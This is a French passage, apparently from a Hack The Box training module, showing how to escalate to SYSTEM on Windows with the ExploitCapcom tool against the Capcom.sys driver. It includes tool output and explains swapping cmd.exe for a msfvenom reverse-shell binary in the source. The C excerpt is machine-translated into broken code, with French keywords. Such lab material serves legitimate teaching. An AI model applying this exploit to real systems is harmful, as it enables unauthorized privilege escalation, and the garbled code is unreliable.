 Pour exploiter Capcom.sys, nous pouvons utiliser l'outil [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) après avoir compilé avec Visual Studio.

Utiliser l'outil ExploitCapcom pour augmenter les privilèges

```
PS C:\htb> .\ExploitCapcom.exe

[*] Exploit Capcom.sys
[*] Le descripteur Capcom.sys a été obtenu sous la forme 0000000000000070
[*] Shellcode a été placé à 0000024822A50008
[+] Le shellcode a été exécuté
[+] Le vol de jetons a réussi
[+] Le shell SYSTEM a été lancé

```

Cela lance un shell avec les privilèges SYSTEM.

![printopsexploit](https://academy.hackthebox.com/storage/modules/67/capcomexploit.png)

* * * * *

Exploitation alternative - Pas d'interface graphique
-------------------------------

Si nous n'avons pas d'accès graphique à la cible, nous devrons modifier le code `ExploitCapcom.cpp` avant de compiler. Ici, nous pouvons modifier la ligne 292 et remplacer `C:\\Windows\\system32\\cmd.exe"` par, disons, un binaire shell inversé créé avec `msfvenom`, par exemple : `c:\ProgramData\revshell.exe `.

Code : c

```
// Lance un processus shell de commande
booléen statique LaunchShell()
{
     TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
     PROCESS_INFORMATION ProcessInfo ;
     STARTUPINFO StartupInfo = { sizeof(StartupInfo) } ;
     if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
         CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
         &Information sur le processus))
     {
         retourner faux ;
     }

     CloseHandle(ProcessInfo.hThread);
     CloseHandle(ProcessInfo.hProcess);
     retourner vrai ;
}

```

La chaîne `CommandLine` dans cet exemple serait remplacée par :
